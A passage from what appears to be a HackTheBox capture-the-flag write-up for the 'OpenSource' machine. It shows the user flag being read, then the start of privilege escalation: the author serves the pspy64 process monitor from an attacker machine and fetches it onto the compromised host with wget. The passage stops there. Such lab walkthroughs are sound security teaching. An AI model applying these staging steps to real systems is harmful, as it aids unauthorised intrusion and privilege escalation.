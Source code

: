Let's grab the user flag before we move on:

```sh
dev01@opensource:~$ cat user.txt 
d9369780ee9ac6d706603da08e0dc7d9
```

## Escalation To Root

Escalation to root is actually pretty simple. I did a bit of enumeration but nothing obvious stood out. Usually next things I try is look at running processes, sudo rights, and then pull LinPEAS over for a more detailed look. On this box it was processes that was the correct path.

## Pspy64

On Kali grab [pspy64](https://github.com/DominicBreuker/pspy) and start a web server so we can get to it:

```sh
┌──(root㉿kali)-[~/htb/opensource]
└─# wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64                 
--2022-06-09 22:31:56--  https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/120821432/d54f2200-c51c-11e9-8d82-f178cd27b2cb?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20220609%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20220609T213156Z&X-Amz-Expires=300&X-Amz-Signature=27a79850c7226b0a9dab56aa96afed89248b262414bbc6415acbab911b52fa0d&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’
pspy64          100%[====================================>]   2.94M  18.2MB/s    in 0.2s    
2022-06-09 22:31:56 (18.2 MB/s) - ‘pspy64’ saved [3078592/3078592]

┌──(root㉿kali)-[~/htb/opensource]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Back over to our ssh session on the box, pull pspy over:

```text
dev01@opensource:~/.git/hooks$ cd /dev/shm
dev01@opensource:/dev/shm$ wget http://10.10.14.184:8000/pspy64
--2022-06-09 21:32:37--  http://10.10.14.184:8000/pspy64
Connecting to 10.10.14.184:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’
pspy64            100%[===================>]   2.94M  2.25MB/s    in 1.3s    
2022-06-09 21:32:38 (2.25 MB/s) - ‘pspy64’ saved [3078592/3078592]
```
